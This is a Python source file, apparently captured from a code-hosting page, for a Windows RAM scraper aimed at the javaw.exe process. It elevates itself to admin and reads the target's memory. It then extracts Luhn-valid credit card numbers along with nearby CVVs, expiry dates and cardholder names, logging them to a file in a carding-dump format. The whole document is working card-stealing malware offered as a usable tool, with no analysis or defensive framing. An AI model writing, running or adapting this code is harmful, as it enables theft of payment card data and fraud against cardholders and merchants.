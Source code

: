 import ctypes
import psutil
import re
import threading
from queue import Queue
import sys
import time
import logging

# Constants for process access
PROCESS_VM_READ = 0x0010
PROCESS_QUERY_INFORMATION = 0x0400

# Set up logging
logging.basicConfig(filename='log.txt', level=logging.INFO, format='%(asctime)s - %(message)s')

# Queue for memory regions to scan (for threading)
memory_queue = Queue()

# Luhn's algorithm to validate credit card numbers
def validate_luhn(card_number):
    total = 0
    reverse_digits = card_number[::-1]
    for i, digit in enumerate(reverse_digits):
        n = int(digit)
        if i % 2 == 1:
            n *= 2
            if n > 9:
                n -= 9
        total += n
    return total % 10 == 0

# Improved regex patterns
cc_regex = re.compile(r'\b(?:\d[ -]*?){13,19}\b')  # Credit card number
cvv_regex = re.compile(r'\b\d{3,4}\b')  # CVV code (3 or 4 digits)
expiry_regex = re.compile(r'\b(0[1-9]|1[0-2])/(?:\d{2}|\d{4})\b')  # Expiry date MM/YY or MM/YYYY
name_regex = re.compile(r'\b[A-Z][a-z]+ [A-Z][a-z]+\b')  # Simple name pattern (First Last)

# Scan a buffer for potential credit card data
def scan_memory_chunk(memory_chunk):
    results = []
    card_matches = cc_regex.findall(memory_chunk)

    for card_match in card_matches:
        sanitized_card = re.sub(r'[^\d]', '', card_match)  # Remove non-numeric characters

        if validate_luhn(sanitized_card):
            match_index = memory_chunk.find(card_match)
            surrounding_text = memory_chunk[max(0, match_index - 200): match_index + 400]  # Extended search range

            # Find possible CVV, expiry date, and name nearby
            cvv_match = cvv_regex.findall(surrounding_text)
            expiry_match = expiry_regex.findall(surrounding_text)
            name_matches = name_regex.findall(surrounding_text)

            # Use the first matches found
            cvv = cvv_match[0] if cvv_match else 'Not Found'
            expiry = expiry_match[0] if expiry_match else 'Not Found'
            name = name_matches[0] if name_matches else 'Not Found'

            results.append({
                'Card Number': sanitized_card,
                'CVV': cvv,
                'Expiry Date': expiry,
                'Name': name
            })
    
    return results

# Worker thread that processes memory chunks
def memory_scan_worker(process_handle):
    while True:
        if memory_queue.empty():
            time.sleep(1)  # Avoid busy waiting
            continue
        
        base_addr, size = memory_queue.get()
        try:
            buffer = ctypes.create_string_buffer(size)
            bytesRead = ctypes.c_size_t(0)
            if ctypes.windll.kernel32.ReadProcessMemory(process_handle, ctypes.c_void_p(base_addr), buffer, size, ctypes.byref(bytesRead)):
                valid_cards = scan_memory_chunk(buffer.raw.decode('latin-1', errors='ignore'))
                if valid_cards:
                    for card in valid_cards:
                        formatted_output = f"{card['Card Number']}:{card['Name']}:{card['CVV']}:{card['Expiry Date']}"
                        print(formatted_output)
                        logging.info(formatted_output)  # Log to file
        except Exception as e:
            logging.error(f"Error reading memory at {base_addr}: {e}")
        finally:
            memory_queue.task_done()

# Define the MEMORY_BASIC_INFORMATION structure
class MEMORY_BASIC_INFORMATION(ctypes.Structure):
    _fields_ = [
        ("BaseAddress", ctypes.c_void_p),
        ("AllocationBase", ctypes.c_void_p),
        ("AllocationProtect", ctypes.c_ulong),
        ("RegionSize", ctypes.c_size_t),
        ("State", ctypes.c_ulong),
        ("Protect", ctypes.c_ulong),
        ("Type", ctypes.c_ulong)
    ]

# Get memory regions to scan (only committed, readable regions)
def get_memory_regions(pid):
    process = psutil.Process(pid)
    with process.oneshot():
        handle = ctypes.windll.kernel32.OpenProcess(PROCESS_VM_READ | PROCESS_QUERY_INFORMATION, False, pid)
        if not handle:
            raise Exception(f"Failed to open process {pid}")

        memory_regions = []
        address = 0
        mbi = MEMORY_BASIC_INFORMATION()

        while ctypes.windll.kernel32.VirtualQueryEx(handle, ctypes.c_void_p(address), ctypes.byref(mbi), ctypes.sizeof(mbi)):
            # Filter to committed and readable regions
            if mbi.State == 0x1000 and mbi.Protect in (0x04, 0x20, 0x40):  # PAGE_READWRITE, PAGE_EXECUTE_READWRITE, PAGE_EXECUTE_READ
                memory_regions.append((mbi.BaseAddress, mbi.RegionSize))
            address += mbi.RegionSize

        ctypes.windll.kernel32.CloseHandle(handle)
        return memory_regions

# Main function to scan memory of target process
def scan_process_memory(pid, num_threads=4):
    memory_regions = get_memory_regions(pid)
    if not memory_regions:
        print(f"No valid memory regions found for PID {pid}")
        return

    for region in memory_regions:
        memory_queue.put(region)

    process_handle = ctypes.windll.kernel32.OpenProcess(PROCESS_VM_READ | PROCESS_QUERY_INFORMATION, False, pid)

    threads = []
    for _ in range(num_threads):
        t = threading.Thread(target=memory_scan_worker, args=(process_handle,))
        t.daemon = True  # Allow threads to exit when the main program does
        t.start()
        threads.append(t)

    try:
        while True:
            # Keep scanning new memory regions in a loop
            new_memory_regions = get_memory_regions(pid)
            for region in new_memory_regions:
                memory_queue.put(region)

            time.sleep(5)  # Delay between scans to reduce CPU usage

    except KeyboardInterrupt:
        print("Stopping the memory scan...")
    finally:
        for t in threads:
            t.join()
        ctypes.windll.kernel32.CloseHandle(process_handle)

def is_admin():
    try:
        return ctypes.windll.shell32.IsUserAnAdmin()
    except:
        return False

if __name__ == "__main__":
    if not is_admin():
        print("Attempting to restart with admin privileges...")
        ctypes.windll.shell32.ShellExecuteW(None, "runas", sys.executable, " ".join(sys.argv), None, 1)
        sys.exit(0)

    for proc in psutil.process_iter(['pid', 'name']):
        if proc.info['name'] == 'javaw.exe':
            target_pid = proc.info['pid']
            print(f"Found javaw.exe with PID {target_pid}")
            scan_process_memory(target_pid)
            break
    else:
        print("javaw.exe not found!")
